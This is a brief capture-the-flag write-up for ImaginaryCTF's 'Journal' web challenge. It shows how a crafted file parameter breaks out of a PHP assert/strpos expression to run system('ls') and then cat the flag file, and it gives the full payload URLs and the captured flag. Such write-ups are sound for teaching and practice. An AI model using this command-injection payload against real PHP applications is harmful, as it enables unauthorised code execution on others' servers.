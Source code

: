 # Journal
Solved by **Yappare**

## Question
dear diary, there is no LFI in this app

## Solution
ref: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp \
```http://journal.chal.imaginaryctf.org/?file=%27,%27a%27)%20===%20false%20and%20system(%27ls%27)%20and%20strpos(%27a```

Result shows the flag txt file `flag-cARdaInFg6dD10uWQQgm.txt`

Read it using rce

```http://journal.chal.imaginaryctf.org/?file=%27,%27a%27)%20===%20false%20and%20system(%27cat%20/flag-cARdaInFg6dD10uWQQgm.txt%27)%20and%20strpos(%27a```



### Flag
`ictf{assertion_failed_e3106922feb13b10}`
